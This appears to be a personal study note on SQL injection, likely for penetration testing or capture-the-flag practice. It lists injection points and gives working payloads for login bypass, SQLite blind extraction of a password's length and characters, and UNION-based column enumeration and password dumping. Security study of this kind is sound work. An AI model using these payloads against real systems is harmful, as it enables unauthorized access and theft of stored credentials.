


### Basics
Understand your [[../../tools/SQL.md|SQL]] syntax.

### Conditions
1.) Submitted query must not be sanitized, or sanitization must be circumvented.

### Where To Look
#### Forms 

Often, form data is submitted 

#### URL Parameters 

Sometimes the input can be directly manipulated from the URL

#### POST Injection  
If client-side sanitization takes place, can circumvent it by sending a POST request directly to the server-side API.
- [[burpsuite|Burpsuite]]
- [[curl|Curl]]
- Can also accomplish through the devtools in the browser


### What it looks like
#### Authentication Forms
In the username or password field adding one of the following inputs (dependent on SQL DB used on the backend):

`admin' OR 1=1-- -`
`admin' OR '1'='1'-- -`
`admin' OR 1=1;#`

#### Blind Injection
Boolean queries to extract info.
Can use the following tools:
- [[../../tools/sqlmap.md|SQLmap]]

Test for length of password (SQLite)
`admin' AND length((SELECT password from users where username='admin'))==37-- -`

Test for character in password (SQLite)
- `CAST(X'54' as Text')`: The way to represent a capital T in SQLite (X is hex; 54 is ASCII for 'T')
`admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -`


#### Enumerating 
When using the `UNION` operator, both `SELECT` statements must have the same number of columns, but we can rarely see the coded SQL statement and then must enumerate to find out how many columns are in the original statement:

```
1' UNION SELECT NULL-- -
1' UNION SELECT NULL, NULL-- -
1' UNION SELECT NULL, NULL, NULL-- -
```

Keep adding `NULL`s until to find the correct number of columns in the vulnerable query. Let's suppose there are 3 columns, then you can simply replace the last column with your query:

```
' UNION SELECT 1,2,group_concat(password) FROM users-- -
```
